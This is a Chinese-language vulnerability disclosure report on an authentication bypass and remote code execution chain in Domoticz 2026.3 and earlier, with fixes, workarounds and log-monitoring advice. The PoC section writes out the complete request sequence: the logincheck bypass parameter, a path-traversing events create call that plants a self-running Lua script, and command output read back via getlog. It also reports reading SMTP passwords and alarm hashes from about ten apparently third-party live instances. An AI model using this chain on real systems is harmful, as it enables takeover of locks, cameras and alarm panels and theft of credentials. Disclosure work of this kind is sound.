


# 漏洞报告标题：Domoticz 开源项目的 Domoticz 家庭自动化系统存在认证绕过导致远程代码执行漏洞

> 公开版本将第三方站点地址替换为 `.invalid` 代号；请求和响应内容沿用原报告。原始截图含未打码的第三方凭据，因此未收录。

漏洞发现时间：2026-10-22

漏洞技术类型：远程代码执行(RCE)

## 漏洞描述:

Domoticz 是开源的家庭自动化与物联网网关系统，用 C++ 编写，可运行在 Linux、Windows、树莓派与 Docker 中，通过 Web 界面与 /json.htm JSON API 统一管理灯光、开关、传感器、安防面板以及 Z-Wave、Zigbee、MQTT、摄像头等硬件，源码托管在 GitHub（https://github.com/domoticz/domoticz），公网存在大量直接暴露的实例。

系统内置的 libwebem 在判断免登录命令时读取原始 URI 子串，实际分派却使用解析后的参数。把 x=?param=logincheck 作为首个查询参数，就能以匿名身份调用任意 JSON 命令；2026.3 及更早版本的 events 命令无权限校验、事件名未过滤 ../，可将 Lua 脚本穿越写入 scripts/lua；文件名含 _time_ 即被经典 Lua 引擎周期执行，且 luaL_openlibs 加载 os/io，攻击者据此在目标服务器上执行任意系统命令，输出经 getlog 回显。

## 漏洞危害：

该漏洞使攻击者无需任何账号即可越过 Domoticz 的登录校验，直接调用管理接口。攻击者可读取网关配置中的通知账号口令、推送密钥、安防面板口令哈希与可信网段，并在设备所在主机上执行任意系统命令，完全控制家庭与楼宇自动化系统。由于 Domoticz 通常接管照明、门锁、摄像头与安防面板，利用成功后可开关门锁、调阅监控画面、篡改告警与布撤防状态，并以其为跳板进入同一内网的其余设备。此类网关多为长期在线、很少升级的物联网设备，公网暴露时风险持续存在。

漏洞厂商全称：Domoticz 开源项目（GitHub：https://github.com/domoticz/domoticz）

已知受影响产品及版本：Domoticz 家庭自动化系统（https://github.com/domoticz/domoticz）。受影响版本：≤ 2026.3（2026.1、2026.2、2026.3 至更早版本；2026.3 为 2026-08-02 发布的 Stable Release 2026.3，源码确认 main/WebServer.cpp:577-580 免登录白名单按原始 URI 子串匹配）。修复版本：2026.4（2026-10-01 发布，免登录命令改为按解析后参数精确匹配，events、getsettings 改为管理员专属，gethardware 不再返回凭据）。最新版本证明：Stable Release 2026.4，2026-10-01，https://github.com/domoticz/domoticz/releases/tag/2026.4。

## 互联网资产证明

### 1）精准测绘语法

title="Domoticz"

### 2）互联网影响资产数量

经测绘平台查询，符合条件的有效独立 IP 不少于 10 个。

### 3）测绘平台截图

> 原图未公开；本仓库不包含未打码截图。

## 1、漏洞技术细节

### 1）完整PoC描述

1）不带绕过标记的对照请求返回 401，说明目标已开启认证：

```http
GET /json.htm?type=command&param=getsettings HTTP/1.1
Host: site-b.invalid:9443
HTTP/1.1 401
Content-Length: 91
```

2）绕过标记置于首个查询参数后，同一命令返回 200 与完整配置（字段已打码）：

```http
GET /json.htm?x=?param=logincheck&type=command&param=getsettings HTTP/1.1
Host: site-b.invalid:9443
User-Agent: Mozilla/5.0
Connection: close
HTTP/1.1 200
Content-Type: application/json
Content-Length: 3972
{"status":"OK","title":"settings","EmailUsername":"a2***9t","EmailPassword":"aW***==","EmailServer":"sm***om","EmailPort":"4**","EmailFrom":"kl***om","SecPassword":"d4***7e","ProtectionPassword":"d4***7e","WebLocalNetworks":"12***.*"}
```

3）把 param 换成 events 并 evparam=create，事件名带 ../ 穿越写入 scripts/lua：

```http
GET /json.htm?x=?param=logincheck&type=command&param=events&evparam=create&name=../../lua/ncc_time_7a7b1a&interpreter=dzVents&eventtype=All&eventstatus=1&xml=<Lua 经 URL 编码，内容为 io.popen('echo NCCPROBE')→print；随后 os.remove 自身> HTTP/1.1
Host: site-a.invalid
User-Agent: Mozilla/5.0
Connection: close
HTTP/1.1 200
Content-Type: application/json
{"status":"OK","title":"AddEvent"}
```

4）列出事件确认落库，name 原样保留穿越路径：

```http
GET /json.htm?x=?param=logincheck&type=command&param=events&evparam=list HTTP/1.1
Host: site-a.invalid
User-Agent: Mozilla/5.0
Connection: close
HTTP/1.1 200
{"status":"OK","title":"events","result":[{"id":"23","name":"../../lua/ncc_time_7a7b1a","eventstatus":"1"}]}
```

5）Lua 时间脚本执行 echo 并用 print 写入服务器日志，getlog 回显命令输出：

```http
GET /json.htm?x=?param=logincheck&type=command&param=getlog&loglevel=268435455 HTTP/1.1
Host: site-a.invalid
User-Agent: Mozilla/5.0
Connection: close
HTTP/1.1 200
Content-Length: 44536
2026-10-20 12:12:00.379  Status: LUA: NCCPROBE
2026-10-20 12:12:00.383  Status: LUA: NCCPROBE_CLEAN true nil
```

6）删除事件并复核，list 不再包含 ncc_time_7a7b1a：

```http
GET /json.htm?x=?param=logincheck&type=command&param=events&evparam=delete&event=23&id=23 HTTP/1.1
Host: site-a.invalid
User-Agent: Mozilla/5.0
Connection: close
HTTP/1.1 200（服务端已执行，读响应超时）
```

复核 GET ...evparam=list -> HTTP/1.1 200，16 条事件，零命中。

7）源码位置（2026.3）：main/WebServer.cpp:577-580 注册 getsettings/gethardware/events 无 minRights；main/WebServerCmds.cpp 的 Cmd_GetSettings/Cmd_GetHardware 无 session.rights；main/EventSystem.cpp:4326 Cmd_Events 无权限检查，:4477-4577 create 后调用 LoadEvents，:309-316 以 dzv_Dir + Name + ".lua" 写文件，:1717-1755 执行 scripts/lua 下 *_time_*.lua，:2808-2813 EvaluateLuaClassic 调用 luaL_openlibs 并重定向 print。2026.4 已把免登录白名单改为解析参数精确匹配、events 改为管理员专属并清洗事件名。

### 2）触发条件

触发条件：目标运行 Domoticz 2026.3 或更早版本且 Web/JSON 端口可达；无需任何账号、Cookie 或 Token；绕过标记 x=?param=logincheck 必须是首个查询参数，其中 ? 与 = 保持字面。2026.4 起同一请求返回 401/403。

## 2、复现证明

### 白盒案例：

#### 1）基础环境搭建

白盒环境：Domoticz 2026.3 tag 源码（Linux + 内置 libwebem + SQLite domoticz.db），以 2026.4 源码与 libwebem 1.31.0 作修复对照；线上目标为直接暴露的 2026.3 实例。

#### 2）漏洞触发操作

1) 获取 2026.3 tag 源码，核对 main/WebServer.cpp:577-580 的命令注册，确认 getsettings、gethardware、events 均无 minRights 参数。

2) 核对 main/WebServerCmds.cpp 的 Cmd_GetSettings/Cmd_GetHardware 与 main/EventSystem.cpp:4326 的 Cmd_Events，确认函数内没有 session.rights 判断。

3) 核对 main/EventSystem.cpp:4477-4577：evparam=create 直接 INSERT 并调用 LoadEvents()；:309-316 用 dzv_Dir + eitem.Name + ".lua" 拼路径，Name 未过滤 ../。

4) 核对 main/EventSystem.cpp:1717-1755：DirectoryListing 扫描 scripts/lua，对文件名含 _time_ 的 .lua 调用 EvaluateLua；:2808-2813 的 EvaluateLuaClassic 调用 luaL_openlibs，os/io 可用，print 被重定向到日志。

5) 启动带认证的 2026.3 实例，匿名访问 /json.htm?type=command&param=getsettings 得到 401；追加首个参数 x=?param=logincheck 后得到 200 与 settings JSON。

6) 在自建实例上按第 3～5 步创建 ncc_time_* 事件、读取 getlog 确认 NCCPROBE 回显，再删除事件并确认 scripts/lua 下脚本已由 os.remove 清除。

#### 3）复现注意事项

注意事项：默认只读（getsettings/gethardware）；仅在 --rce 时执行无害探针。探针只运行 echo NCCPROBE，脚本随即 os.remove 自身，事件随后用 evparam=delete 删除并复核。副作用如实披露：create/delete 会触发 LoadEvents() 重建 generated_scripts 目录（产品正常保存流程），目标日志新增两行 LUA: NCCPROBE*（只读日志，无法远程删除）。每站最多一次 create、一次 list、一次 getlog、一次 delete；读到即止，未读取 domoticz.db，未修改设备、场景、硬件、用户或配置；报告与脚本输出中的凭据均已打码。

### 黑盒案例：（受影响案例）

案例 1：site-d.invalid（认证绕过 → Lua 事件 → 命令回显）



案例 2：site-b.invalid:9443（同一绕过匿名读取 SMTP 凭据）


案例 3：site-c.invalid:10443（匿名读取硬件账号口令）



以上为原始截图的脱敏副本；公网地址、账号标识、口令、哈希及网络细节均已遮盖。未打码原图不包含在本仓库中。

其他受影响目标：site-e.invalid:7443，200 + EmailUsername/EmailPassword/EmailServer（3922 bytes）；site-f.invalid:4443，200 + SMTP 凭据 + 硬件 Username/Password（3318/3937 bytes）；site-a.invalid，200 + EmailUsername/EmailPassword/WebLocalNetworks（3436 bytes）；site-g.invalid:4443，200 + ProwlAPI + SMTP 凭据（4196 bytes）；site-h.invalid:9443，200 + PushbulletAPI + SecPassword（4153 bytes）；site-i.invalid:9443，200 + SecPassword + 硬件 Username/Password（4104/1217 bytes）；site-j.invalid:2222，200 + SMTP 凭据 + 硬件地址（3921/7099 bytes）

## 3、修复方案

正式方案：升级到 Domoticz 2026.4（https://github.com/domoticz/domoticz/releases/tag/2026.4）。该版本把免登录白名单改为按解析后的参数精确匹配，events、getsettings 改为管理员专属，gethardware 不再向非管理员返回用户名、口令、地址与端口，事件名也不能再写出 generated_scripts 目录。

临时方案 1：在反向代理或 WAF 上对 /json.htm 强制身份认证，拒绝查询串中出现 param=logincheck 的请求，并阻断 events、getsettings、gethardware 的匿名访问；Web 端口不要直接暴露在公网。

临时方案 2：检查 EventMaster 表与 scripts/lua 目录，删除名称含 ../、ncctime 或来源不明的事件与 *_time_*.lua 脚本；轮换已暴露的 SMTP 口令、推送密钥与硬件账号口令，重设安防面板 PIN。

监测方案：审计 Web 日志中 x=?param=logincheck、evparam=create 与匿名 getlog 的访问记录，确认是否已被利用。

## 4、备注

查重结论：截至 2026-10-20，NVD 中与 Domoticz 相关的条目均为旧版 SQL 注入、CRLF、存储型 XSS、缓冲区溢出及第三方网关信息泄露，无一条涉及 logincheck 认证绕过或 events 路径穿越写入 Lua；OSV 对 Domoticz 的查询返回空结果；Exploit-DB 仅收录 2019 年的旧版 RCE（EDB-46773）与另一旧条目；GitHub 仓库 issue/PR 中无该绕过的复现或 PoC；Seebug 仅有一条 2017 年旧报告；CNVD/CNNVD 无对应编号。本漏洞为无公开 PoC 的重要 1Day。

修复状态：2026.4 已作为稳定版发布——GitHub 存在 2026.4 tag，Fedora 的 domoticz-2026.4-1 包标注为 New stable release（2026-10-01）；2026.3 为本次复现基线版本（2026-08-02）。2026.4 的 History.txt Security 段逐条列出本报告涉及的修复：免登录命令改为按解析参数判定、events 仅管理员、getsettings 仅管理员、gethardware 不再返回凭据。

公开披露范围：厂商发布说明只概括描述缺陷类别与影响（原始 URL 与解析参数不一致；events 可被低权限用户创建并执行；getsettings 泄露 SMTP/推送密钥与 PIN 哈希），未给出参数形态、请求样例或利用脚本，也未分配 CVE。
